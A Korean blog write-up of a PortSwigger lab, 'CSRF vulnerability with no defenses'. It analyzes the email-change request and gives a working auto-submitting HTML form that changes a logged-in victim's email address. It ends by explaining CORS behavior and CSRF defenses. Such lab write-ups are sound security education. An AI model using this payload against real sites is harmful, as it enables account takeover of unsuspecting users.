




+++
date = '2026-06-23T09:00:00+09:00'
draft = false
title = '[Write-up] PortSwigger - CSRF vulnerability with no defenses'
summary = "CSRF 토큰도 SameSite 제한도 없는 이메일 변경 기능에 폼 자동 제출 페이로드를 만들어 피해자의 이메일을 변경하는 기본 CSRF 풀이"
toc = true
tags = ["CSRF", "SameSite", "CORS", "PortSwigger", "Apprentice"]
url = '/write-up/portswigger/csrf/write-up-portswigger---csrf-vulnerability-with-no-defenses/'
+++

---

## 문제 분석

> **난이도**: `APPRENTICE`  
> **Lab**: [CSRF vulnerability with no defenses](https://portswigger.net/web-security/csrf/lab-no-defenses)

> 

이메일 변경 기능에 CSRF 취약점이 존재한다. 페이지를 여는 사람의 이메일 주소를 변경하는 HTML 문서를 작성해 Exploit Server에 업로드하면 문제가 해결된다. 실습 계정은 `wiener:peter`다.

### CSRF 진단

정상적으로 이메일을 변경하고 요청을 확인한다.

```http
POST /my-account/change-email HTTP/2
Host: <lab-id>.web-security-academy.net
Cookie: session=<session>
Content-Type: application/x-www-form-urlencoded

email=csrf%40csrf.com
```

본문에는 `email` 파라미터 하나뿐이고, CSRF 토큰이나 그 밖의 예측 불가능한 값은 포함되지 않는다. 세션 식별에 사용되는 값은 `session` 쿠키가 전부이므로, 요청을 어디서 만들어 보내든 브라우저가 쿠키만 붙여 준다면 서버는 정상 요청과 구분하지 못한다.

남은 조건은 교차 사이트 요청에 쿠키가 실리는지 여부다. 응답의 `Set-Cookie`를 확인하면 `SameSite` 제한이 `None`으로 설정되어 있다.



CSRF 성립 조건 세 가지가 모두 충족된다. 상태를 바꾸는 유의미한 행위가 있고, 세션 처리가 쿠키에만 의존하며, 요청 파라미터에 공격자가 알 수 없는 값이 없다.

---

## 익스플로잇

이메일 변경 요청과 동일한 형태의 폼을 만들고, 페이지가 열리는 즉시 제출되도록 구성한다.

```html
<form id="autosubmit" action="https://<lab-id>.web-security-academy.net/my-account/change-email" method="POST">
    <input name="email" value="csrf@csrf.com" />
</form>

<script>
    document.getElementById("autosubmit").submit();
</script>
```

폼 제출은 최상위 탐색(top-level navigation)으로 처리되므로 브라우저가 피해자의 세션 쿠키를 자동으로 첨부한다. `Content-Type`도 폼 기본값인 `application/x-www-form-urlencoded`가 그대로 사용되어 원래 요청과 동일해진다.

이 페이로드를 Exploit Server에 업로드하고 피해자에게 전달하면 이메일이 변경되면서 문제가 해결된다.



한 가지 주의할 점은 이 랩이 **이미 사용 중인 이메일 주소를 거부한다**는 것이다. 진단 과정에서 사용한 주소를 페이로드에 그대로 쓰면 요청 자체는 정상적으로 전달되어도 변경이 이루어지지 않으므로, 페이로드에는 아직 쓰지 않은 주소를 넣어야 한다.

---

## 정리

이 랩은 CSRF의 기본형이다. 서버가 요청을 검증하는 근거가 세션 쿠키뿐이고, 쿠키는 요청을 누가 만들었는지와 무관하게 브라우저가 자동으로 붙인다. 따라서 "인증된 요청"과 "사용자가 의도한 요청"이 같지 않다는 간극이 그대로 취약점이 된다.

공격 코드를 `fetch`로 작성하면 콘솔에 CORS 오류가 뜬다. 이 오류를 요청이 차단된 것으로 읽기 쉽지만 그렇지 않다.



CORS는 교차 출처 응답을 **읽을 수 있는지**를 통제하는 규칙이다. `GET`·`POST`·`HEAD`에 폼과 동일한 `Content-Type`을 쓰는 단순 요청(simple request)은 preflight 없이 그대로 전송되고, 서버는 이를 정상적으로 처리한다. 차단되는 것은 그 응답을 스크립트가 읽는 것뿐이다. 즉 CORS 오류가 났더라도 서버 측 상태 변경은 이미 일어난 뒤다.

CSRF가 애초에 응답을 읽을 필요가 없는 단방향 공격이라는 점도 여기서 드러난다. 공격자에게 필요한 것은 요청이 도달하는 것뿐이므로 응답 읽기 제한은 방어가 되지 못한다. 방어는 요청 자체를 구분할 수 있게 만드는 쪽에 있어야 한다. 세션에 결합된 CSRF 토큰을 요구하거나, 세션 쿠키에 `SameSite=Strict`를 적용해 교차 사이트 요청에 쿠키가 실리지 않게 해야 한다.
